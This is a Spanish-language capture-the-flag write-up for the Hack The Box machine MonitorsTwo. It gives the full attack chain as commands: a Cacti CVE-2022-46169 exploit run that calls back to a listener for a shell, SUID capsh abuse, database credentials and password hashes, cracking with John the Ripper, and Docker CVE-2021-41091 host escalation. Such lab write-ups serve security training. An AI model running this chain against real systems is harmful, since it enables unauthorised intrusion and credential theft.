










MonitorsTwo es una máquina Linux de dificultad fácil que muestra una variedad de vulnerabilidades y configuraciones erróneas. La enumeración inicial expone una aplicación web propensa a la ejecución de código remoto (RCE) previa a la autenticación a través de un encabezado X-Forwarded-For malicioso. La explotación de esta vulnerabilidad otorga un shell dentro de un contenedor Docker. Un binario capsh mal configurado con el bit SUID establecido permite el acceso de root dentro del contenedor. El descubrimiento de las credenciales de MySQL permite el volcado de un hash, que, una vez descifrado, proporciona acceso SSH a la máquina. Una enumeración adicional revela una versión vulnerable de Docker (CVE-2021-41091) que permite a un usuario con pocos privilegios acceder a los sistemas de archivos del contenedor montados. Aprovechando el acceso de root dentro del contenedor, se copia un binario bash con el bit SUID establecido, lo que resulta en una escalada de privilegios en el host.

# Reconocimiento

Iniciamos con el reconocimiento de puertos abiertos de la maquina victima

```c
❯ nmap -p- --open --min-rate 5000 -Pn -n -vvv 10.10.11.211 -oG allportsScan
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

```

- `-p-`: Escanea todos los puertos posibles (1-65535).
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece una tasa mínima de envío de paquetes a 5000 por segundo, acelerando el escaneo.
- `-Pn`: Omite la fase de descubrimiento de host, asumiendo que el host está activo (útil si los pings están bloqueados).
- `-n`: No realiza resolución de nombres DNS, utilizando solo direcciones IP.
- `-vvv`: Proporciona una salida muy detallada y verbosa.
- `10.10.11.211`: La dirección IP del objetivo.
- `-oG allportsScan`: Guarda los resultados del escaneo en un archivo en formato Grepable llamado `allportsScan`.

Luego de tener los puertos abiertos procederemos a enumerar los servicios que corren en dichos puertos

```c
❯ nmap -p22,80 -sC -sV -vvv -Pn -n 10.10.11.211 -oN servicesScan
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC82vTuN1hMqiqUfN+Lwih4g8rSJjaMjDQdhfdT8vEQ67urtQIyPszlNtkCDn6MNcBfibD/7Zz4r8lr1iNe/Afk6LJqTt3OWewzS2a1TpCrEbvoileYAl/Feya5PfbZ8mv77+MWEA+kT0pAw1xW9bpkhYCGkJQm9OYdcsEEg1i+kQ/ng3+GaFrGJjxqYaW1LXyXN1f7j9xG2f27rKEZoRO/9HOH9Y+5ru184QQXjW/ir+lEJ7xTwQA5U1GOW1m/AgpHIfI5j9aDfT/r4QMe+au+2yPotnOGBBJBz3ef+fQzj/Cq7OGRR96ZBfJ3i00B/Waw/RI19qd7+ybNXF/gBzptEYXujySQZSu92Dwi23itxJBolE6hpQ2uYVA8VBlF0KXESt3ZJVWSAsU3oguNCXtY7krjqPe6BZRy+lrbeska1bIGPZrqLEgptpKhz14UaOcH9/vpMYFdSKr24aMXvZBDK1GJg50yihZx8I9I367z0my8E89+TnjGFY2QTzxmbmU=
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH2y17GUe6keBxOcBGNkWsliFwTRwUtQB3NXEhTAFLziGDfCgBV7B9Hp6GQMPGQXqMk7nnveA8vUz0D7ug5n04A=
|   256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKfXa+OM5/utlol5mJajysEsV4zb/L0BJ1lKxMPadPvR
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 4F12CCCD3C42A4A478F067337FE92794
|_http-title: Login to Cacti
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- `-p22,80`: Especifica que se deben escanear los puertos 22 (SSH) y 80 (HTTP).
- `-sC`: Ejecuta scripts de detección predeterminados. Estos scripts pueden proporcionar información adicional, como versiones de software, detalles de configuración, etc.
- `-sV`: Detecta versiones de los servicios. Este parámetro intenta determinar la versión exacta del software que está ejecutándose en los puertos escaneados.
- `-vvv`: Proporciona una salida muy detallada y verbosa.
- `-Pn`: Omite la fase de descubrimiento de host, asumiendo que el host está activo (útil si los pings están bloqueados).
- `-n`: No realiza resolución de nombres DNS, utilizando solo direcciones IP.
- `10.10.11.211`: La dirección IP del objetivo.
- `-oN servicesScan`: Guarda los resultados del escaneo en un archivo en formato normal llamado `servicesScan`.

Visitando el servicio web encontramos con un panel de inicio de sesion, en el que podemos observar que es un `cacti 1.2.22`, buscando un poco mas sobre dicha versión encontraremos que tiene una vulnerabilidad.



# Docker
## shell - www-data 
### CVE-2022-46169 CACTI 1.2.22

El exploit que se tiene es el [CVE-2022-46169](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22)

Ejecutemos el exploit:

```c
❯ python3 CVE-2022-46169.py -u http://10.10.11.211 --LHOST=10.10.14.55 --LPORT=443
Checking...
The target is vulnerable. Exploiting...
Bruteforcing the host_id and local_data_ids
Bruteforce Success!!
```

Antes debemos de ponernos a la escucha y deberíamos de recibir una Shell como el usuario root



## shell -  root

Enumerando encontraremos que estamos dentro de un contenedor, así mismo encontraremos un binario con permisos `SUID` que tiene una vulnerabilidad y podemos explotarla para escalar privilegios.

```c
www-data@50bca5e748b0:/var/www/html$ find / -perm -4000 -ls 2>/dev/null
```



Para revisar mas sobre este binario podemos visitar:

- [https://ihsansencan.github.io/privilege-escalation/linux/binaries/capsh.html](https://ihsansencan.github.io/privilege-escalation/linux/binaries/capsh.html)

```c
www-data@50bca5e748b0:/var/www/html$ /sbin/capsh --gid=0 --uid=0 --

```



Luego de ejecutarla obtenemos una Shell como el usuario root.

Enumerando los archivos de configuración del sitio web encontraremos un archivo `config.php` en donde encontraremos credenciales a una base de datos:

```c
/var/www/html/include# cat config.php

$database_type     = 'mysql';
$database_default  = 'cacti';
$database_hostname = 'db';
$database_username = 'root';
$database_password = 'root';
$database_port     = '3306';
$database_retries  = 5;
$database_ssl      = false;
$database_ssl_key  = '';
$database_ssl_cert = '';
$database_ssl_ca   = '';
$database_persist  = false;

#$rdatabase_type     = 'mysql';
#$rdatabase_default  = 'cacti';
#$rdatabase_hostname = 'localhost';
#$rdatabase_username = 'cactiuser';
#$rdatabase_password = 'cactiuser';
#$rdatabase_port     = '3306';
#$rdatabase_retries  = 5;
#$rdatabase_ssl      = false;
#$rdatabase_ssl_key  = '';
#$rdatabase_ssl_cert = '';
#$rdatabase_ssl_ca   = '';
```
# shell - marcus

Las credenciales encontradas la haremos uso para ingresar a dicha base de datos.

```c
root@50bca5e748b0:/var/www/html/include# mysql -u root -p -h db
```

En esta base de datos encontraremos uno con el nombre de `cacti` y una tabla que es `user_auth` y revisando esta tabla podremos encontrar credenciales validas.



```c
admin : $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC : Jamie Thompson
guest : 43e9a4ab75570f5b : Guest Account 
marcus : $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C :  Marcus Brune
```

Pero la contraseña se encuentra encriptada, por lo que haciendo uso de `john the ripper` podremos crackearla

```c
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash_mysql
```



Entonces tenemos las siguientes credenciales las que son validas ante el servicio de `ssh` 

```c
marcus : funkymonkey
```

```c
❯ ssh marcus@10.10.11.211
```



# shell - root

Enumerando la maquina victima encontramos que la versión de Docker tiene una vulnerabilidad, de la cual podemos aprovecharnos para escalar privilegios en la maquina host.

## CVE-2021-41091

- [CVE-2021-41091](https://github.com/UncleJ4ck/CVE-2021-41091)

Para explotar esta vulnerabilidad primero debemos asignarle permisos SUID al binario `/bin/bash` del contenedor

```c
 chmod u+s /bin/bash
 ls -la /bin/bash 
```



Luego debemos ejecutar el exploit



Luego de ejecutar el exploit podremos ver un directorio y debemos dirigirnos aquel directorio, en mi caso es el siguiente:

```c
cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

```

En este directorio encontraremos un binario `/bin/bash` que tiene permisos `SUID` por lo que ejecutando `./bin/bash -p` podremos convertirnos en usuario root.



